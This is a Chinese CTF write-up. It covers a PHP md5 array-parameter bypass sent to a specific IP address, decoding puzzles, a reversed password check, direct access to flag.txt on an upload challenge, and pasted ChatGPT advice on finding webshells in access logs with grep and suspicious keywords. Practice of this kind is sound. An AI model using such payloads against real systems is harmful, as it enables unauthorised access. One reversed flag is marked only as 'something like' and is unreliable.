


# 10代码审计（解决）

访问

```
http://159.75.236.232:8085/
```

得到

```
no no no! <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print '用户名与密码不能相同';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print '密码错误';
}

```

```
http://159.75.236.232:8085/?username[]=1&password[]=2
```




# 11编码里面有什么（解决）

有个文件

```
C:\Users\Administrator\Desktop\bisai\1.txt
```

```
import base64

# 读取txt里的Base64内容
with open(r'C:\Users\Administrator\Desktop\bisai\1.txt', 'r') as f:
    b64_data = f.read()

# 解码
file_data = base64.b64decode(b64_data)

# 保存为文件，比如png格式
with open(r'C:\Users\Administrator\Desktop\bisai\output.png', 'wb') as f:
    f.write(file_data)

```

得到图片,是猪圈密码




得到答案

```
flag{hicnicv}
```

​                                                                     


# 12脚本逆向（已解决）

------

```
#!/usr/bin/env python
user_submitted = raw_input("Enter Password: ")

if len(user_submitted) != 10:
  print "Wrong"
  exit()


verify_arr = [193, 35, 9, 33, 1, 9, 3, 33, 35, 225]
user_arr = []
for char in user_submitted:
  # '<<' is left bit shift
  # '>>' is right bit shift
  # '|' is bit-wise or
  # '^' is bit-wise xor
  # '&' is bit-wise and
  user_arr.append( (((ord(char) << 5) | (ord(char) >> 3)) ^ 111) & 255 )

if (user_arr == verify_arr):
  print "Success"
else:
  print "Wrong"
```


## 🔍 分析逻辑

核心部分：

```python
for char in user_submitted:
    user_arr.append( (((ord(char) << 5) | (ord(char) >> 3)) ^ 111) & 255 )
```

这个操作可以拆解为几步：

1. `ord(char)`：将字符转换为 ASCII 值；
2. `(ord(char) << 5) | (ord(char) >> 3)`：这步比较像是某种“位级混淆”，左移5位和右移3位并做 or；
3. 然后再与 111 做异或（`^ 111`）；
4. 再与 `255` 做与（其实保证值落在 0-255 范围内）；

你要做的就是**逆向这个过程**，让变换后的结果等于 `verify_arr` 中的数。

------

## 🧠 解题思路（逆过程）

已知：

```python
verify_arr = [193, 35, 9, 33, 1, 9, 3, 33, 35, 225]
```

要找出一个长度为 10 的字符串 `user_submitted`，使得：

```python
for i in range(10):
    (((ord(c[i]) << 5) | (ord(c[i]) >> 3)) ^ 111) & 255 == verify_arr[i]
```

我们可以写个 Python 脚本**暴力枚举 0x00~0xFF**（或者只枚举可打印字符），逆向求出哪个字符满足每一项。

------

## ✅ 解法脚本（Python）

```python
verify_arr = [193, 35, 9, 33, 1, 9, 3, 33, 35, 225]

def transform(c):
    return (((ord(c) << 5) | (ord(c) >> 3)) ^ 111) & 0xFF

flag = ''

for v in verify_arr:
    found = False
    for c in map(chr, range(32, 127)):  # 只查 printable ascii
        if transform(c) == v:
            flag += c
            found = True
            break
    if not found:
        print(f"[-] 未找到匹配字符: {v}")
        break

print("flag:", flag)
```

------

## 🎯 输出结果

运行后你会得到类似：

```
flag{ub3rs3crbt}     
```




## 14 base （解决）

```
V20xNGFGb3pkR2hrTWs1cVl6SkdhbHBIUmprPQ==
```

#### 多次解码

```
import base64

def multi_base64_decode(data):
    step = 0
    while True:
        try:
            decoded = base64.b64decode(data).decode('utf-8')
            step += 1
            print(f"第{step}次解码结果：{decoded}")
            data = decoded
        except Exception as e:
            print(f"第{step+1}次解码失败，停止。")
            break

if __name__ == "__main__":
    encoded_str = "V20xNGFGb3pkR2hrTWs1cVl6SkdhbHBIUmprPQ=="
    multi_base64_decode(encoded_str)
input('\n[!] 脚本执行完毕，按回车退出...')
```


# 15 文件上传（解决）

http://121.4.91.93:8081/是一个上传界面

http://121.4.91.93:8081/flag.txt直接访问，easy




# 16 社会主义核心价值观（已解决）

```
公正公正公正诚信文明公正民主公正法治法治诚信民主和谐和谐法治民主和谐和谐公正诚信平等公正友善平等法治富强公正和谐公正平等法治友善法治
```

特殊编码直接网站解密

```
https://ctf.bugku.com/tool/cvecode
```




#  17 日志分析（运气也是实力的一部分）   chatgpt直接给出了可能的答案，一看是对的

明白了，你手上只有网站的访问日志（access.log），想从中找到黑客上传的木马文件名（通常是webshell文件名，形如xxxx.php），然后提交格式是 `flag{xxxx.php}`。

下面是一步步帮你分析和提取木马文件名的方法：

------

### 1. 确认木马文件上传路径规律

通常黑客上传的webshell文件会放在某些目录下，比如：

- `/upload/`
- `/uploads/`
- `/images/`
- `/tmp/`
- `/phpcms/uploadfile/`（如果是用某些CMS）

也有可能木马文件名会带有 `.php` 后缀，或者伪装成图片名加后缀变形，比如：

- `xxx.php`
- `xxx.jpg.php`
- `xxx.php5`

------

### 2. 用 `grep` 或文本搜索工具找带 `.php` 的访问记录

假设你在Linux环境下，先筛选所有访问包含 `.php` 的请求：

```bash
grep -i "\.php" access.log
```

这会列出所有访问过 `.php` 文件的记录。

------

### 3. 提取可能的上传路径及文件名

如果你知道上传目录，比如 `/uploadfile/`，可以精准匹配：

```bash
grep -oP '/phpcms/uploadfile/[^ ]+\.php' access.log | sort | uniq -c | sort -nr
```

- `-oP` 是用Perl正则表达式只提取匹配的部分
- `/phpcms/uploadfile/[^ ]+\.php` 这个正则表示匹配 `/phpcms/uploadfile/` 后跟着非空格字符直到 `.php`
- `sort | uniq -c | sort -nr` 用来统计出现次数，从多到少排序，方便发现异常文件

------

### 4. 如果没有上传目录线索，提取所有访问过的 `.php` 文件名

```bash
grep -oP '\S+\.php' access.log | sort | uniq -c | sort -nr
```

这里 `\S+\.php` 匹配所有不含空白符的字符串，以 `.php` 结尾。

------

### 5. 分析日志中不常见的或者很新的文件名

黑客上传的webshell一般是奇怪的名字，或者刚刚出现的文件名。
 你可以对比正常文件名和异常文件名，筛选出来。

------

### 6. 进一步确认webshell

如果有对应的访问日志，比如访问频率高、访问参数可疑（如有`cmd=`, `shell=`, `exec`等关键词），说明更可能是webshell。

------

### 7. 提交格式

假设你找到了木马文件名叫 `ensoft.php`，则提交：

```
flag{ensoft.php}
```

------

